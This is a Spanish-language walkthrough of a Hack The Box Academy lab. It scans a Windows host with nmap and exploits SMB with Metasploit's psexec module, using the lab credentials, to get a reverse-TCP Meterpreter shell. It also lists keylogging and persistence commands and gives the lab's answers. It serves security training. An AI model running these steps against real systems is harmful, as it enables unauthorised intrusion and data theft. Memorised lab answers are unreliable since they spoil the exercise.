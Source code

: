 Con NMAP, realizamos una búsqueda básica de puertos abiertos sobre el host 10.129.164.24:

```shell-session
Polika4RM@htb[/htb]$ nmap -sC -sV -Pn 10.129.164.25

Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-09 21:03 UTC
Nmap scan report for 10.129.164.25
Host is up (0.020s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Host script results:
|_nbstat: NetBIOS name: nil, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:04:e2 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-09T21:03:31
|_  start_date: N/A
```

Vemos que esta máquina Windows tiene el puerto 445 abierto, pues, probaremos Metasploit contra el servicio SMB.
Abrimos la consola de metasploit con el comando:
```
msfconsole
```

Buscaremos con metasploit módulos relacionados con el servicio SMB:
```shell-session
msf6 > search smb

Matching Modules
================

#    Name                                                          Disclosure Date    Rank   Check  Description
  -       ----                                                     ---------------    ----   -----  ---------- 
    ...
 52   auxiliary/dos/windows/smb/ms09_050_smb2_session_logoff                           normal     No     Microsoft SRV2.SYS SMB2 Logoff Remote Kernel NULL Pointer Dereference
 53   auxiliary/dos/windows/smb/vista_negotiate_stop                                   normal     No     Microsoft Vista SP0 SMB Negotiate Protocol DoS
 54   auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop                       normal     No     Microsoft Windows 7 / Server 2008 R2 SMB Client Infinite Loop
 55   auxiliary/scanner/smb/psexec_loggedin_users                                      normal     No     Microsoft Windows Authenticated Logged In Users Enumeration
 56   exploit/windows/smb/psexec                                      1999-01-01       manual     No     Microsoft Windows Authenticated User Code Execution
 57   auxiliary/dos/windows/smb/ms11_019_electbowser                                   normal     No     Microsoft Windows Browser Pool DoS
 58   exploit/windows/smb/smb_rras_erraticgopher                      2017-06-13       average    Yes    Microsoft Windows RRAS Service MIBEntryGet Overflow
 59   auxiliary/dos/windows/smb/ms10_054_queryfs_pool_overflow                         normal     No     Microsoft Windows SRV.SYS SrvSmbQueryFsInformation Pool Overflow DoS
 60   exploit/windows/smb/ms10_046_shortcut_icon_dllloader            2010-07-16       excellent  No     Microsoft Windows Shell LNK Code Execution
```

Cada módulo tiene un número asociado a la izquierda del todo, que lo identifica. Este número no es fijo y depende de la búsqueda que realicemos.
Vamos a estudiar el *`56 exploit/windows/smb/psexec`*
- psexec define la herramienta que se utilizará para intentar vulnerar el sistema. 

Vamos a seleccionar tal módulo con:
```shell-session
msf6 > use 56

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/smb/psexec) > 
```

Con *"options"* podemos visualizar las opciones que nos permite configurar dicho módulo:

```shell-session
msf6 exploit(windows/smb/psexec) > options

Module options (exploit/windows/smb/psexec):

   Name                  Current Setting  Required  Description
   ----                  ---------------  --------  -----------
   RHOSTS                                 yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                 445              yes       The SMB service port (TCP)
   SERVICE_DESCRIPTION                    no        Service description to to be used on target for pretty listing
   SERVICE_DISPLAY_NAME                   no        The service display name
   SERVICE_NAME                           no        The service name
   SHARE                                  no        The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write fo
                                                    lder share
   SMBDomain             .                no        The Windows domain to use for authentication
   SMBPass                                no        The password for the specified username
   SMBUser                                no        The username to authenticate as


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     68.183.42.102    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```

Para que mi exploit funcione, tengo que configurar algunos parámetros, algunos de ellos obligatorios:
```shell-session
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Lanzamos el exploit y nos devuelve una sesión de meterpreter:
```shell-session
msf6 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.222:4444 
[*] 10.129.180.71:445 - Connecting to the server...
[*] 10.129.180.71:445 - Authenticating to 10.129.180.71:445 as user 'htb-student'...
[*] 10.129.180.71:445 - Selecting PowerShell target
[*] 10.129.180.71:445 - Executing the payload...
[+] 10.129.180.71:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.180.71
[*] Meterpreter session 1 opened (10.10.14.222:4444 -> 10.129.180.71:49675) at 2021-09-13 17:43:41 +0000

meterpreter > 
```

Metasploit hace varias cosas:
- Corre el exploit: Intenta aprovechar la vulnerabilidad del sistema objetivo (en este caso, SMB con psexec).
- Entrega el payload: Usa Meterpreter, un payload especial que abre un “canal de comunicación” con tu máquina.

----

## ¿Qué es Meterpreter:?

En ciberseguridad, una carga útil (PAYLOAD) es el código que se ejecuta en la máquina objetivo después de que un exploit aproveche una vulnerabilidad.

El exploit abre la puerta mientras que el PAYLOAD es el conjunto de órdenes que introduzco a la víctima para aprovecharme de ella. 

Yo podía:
- Subir y bajar archivos (`upload`, `download`).
- Migrar procesos (`migrate`).
- Tomar capturas de pantalla (`screenshot`).
- Registrar teclas (`keyscan_start`).
- Escalar privilegios con scripts.
- Persistencia en el sistema.

Puedo invocar a una *SHELL* escribiendo "shell".

---
**QUESTIONS**
**Target: 10.129.201.160**
**Authenticate to 10.129.201.160 (ACADEMY-SHELLS-WIN10MSF) with user "htb-student" and password "HTB_@cademy_stdnt!"**
**1. What command language interpreter is used to establish a system shell session with the target?**
En primer lugar, ejecutamos un escaneo básico de nmap para ver que puertos y servicios asociados están disponibles:
```
sudo nmap -sV --open --min-rate 2000 -Pn -n 10.129.201.160
```
Y encontramos:
```
PORT     STATE SERVICE      VERSION
7/tcp    open  echo
9/tcp    open  discard?
13/tcp   open  daytime      Microsoft Windows USA daytime
17/tcp   open  qotd         Windows qotd (English)
19/tcp   open  chargen
80/tcp   open  http         Microsoft IIS httpd 10.0
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
2179/tcp open  vmrdp?
Service Info: Host: SHELLS-WIN10; OS: Windows; CPE: cpe:/o:microsoft:windows
```
Tiene el puerto 445 abierto -> correspondiente al servicio SMB

Entramos a *msfconsole* y ejecutamos:
```
use exploit/windows/smb/psexec
set RHOSTS 10.129.201.160
set SMBPass HTB_@cademy_stdnt!
set SMBUser htb-student
run
```

Y vemos que durante la ejecución del PAYLOAD, se utiliza una PowerShell:

```
[msf](Jobs:0 Agents:0) exploit(windows/smb/psexec) >> run
[*] Started reverse TCP handler on 94.237.122.209:4444 
[*] 10.129.201.160:445 - Connecting to the server...
[*] 10.129.201.160:445 - Authenticating to 10.129.201.160:445 as user 'htb-student'...
[*] 10.129.201.160:445 - Selecting PowerShell target
[*] 10.129.201.160:445 - Executing the payload...
```

**2.  Exploit the target using what you've learned in this section, then submit the name of the file located in htb-student's Documents folder. (Format: filename.extension)**

Siguiendo los pasos anteriores, en el momento de ejecutar el comando se nos abre una sesión de meterpreter. 
Ejecutamos:
```
shell
```

Para acceder a una terminal shell de windows y accedemos al directorio users/htb-student/documents. 
En dicho directorio, se encuentra el archivo respuesta al ejercicio, llamado: *staffsalaries.txt*.

